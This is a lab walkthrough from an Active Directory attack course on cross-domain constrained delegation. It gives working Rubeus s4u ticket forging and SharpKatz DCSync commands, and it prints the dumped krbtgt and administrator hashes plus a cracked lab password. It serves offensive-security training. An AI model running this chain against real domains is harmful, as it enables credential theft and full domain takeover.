






# Hands-on 23: Cross Domain Attacks - Constrained Delegation

- [Hands-on 23: Cross Domain Attacks - Constrained Delegation](#hands-on-23-cross-domain-attacks---constrained-delegation)
  - [Task](#task)
  - [Enumerate users in the eu.local domain for whom Constrained Delegation is enabled](#enumerate-users-in-the-eulocal-domain-for-whom-constrained-delegation-is-enabled)
  - [Abuse the Delegation to execute DCSync attack against eu.local](#abuse-the-delegation-to-execute-dcsync-attack-against-eulocal)

---

## Task

- Enumerate users in the eu.local domain for whom Constrained Delegation is enabled.
- Abuse the Delegation to execute DCSync attack against eu.local.

<br/>

---

## Enumerate users in the eu.local domain for whom Constrained Delegation is enabled

Import AD Module:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

Enumerate users in `eu.local` with Constrained Delegation (`msDS-AllowedToDelegatedTo` != `null`):

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
```

  

- `eu\storagesvc` has constrained delegation

<br/>

---

## Abuse the Delegation to execute DCSync attack against eu.local

In [Hands-on 22: Cross Forest Kerberoasting](l22-CrossForestKerberoast.md), we found that password of `storagesvc` to be `Qwerty@123`.

We can use **Rubeus.exe** to request an alternative ticket:

```
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:storagesvc /domain:eu.local
```

  

```
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:5C76877A9C454CDED58807C20C20AEAC /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

  

  


<br/>

Then abuse the injected ticket to perform a DCSync:

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local
```

  

Note:
eu\krbtgt
- SID: `S-1-5-21-3657428294-2017276338-1274645009-502`
- AES256: `b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d`
- NTLM: `83ac1bab3e98ce6ed70c9d5841341538`

<br/>

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local
```

  

Note:
eu\administrator
- SID: `S-1-5-21-3657428294-2017276338-1274645009-500`
- AES256: `4e7ba210b76d807429e7ad8b210e103528dcf5db8b9de6b411bf593269955a6d`
- NTLM: `fe422f818eb7e9c6de5862d94739c2e4`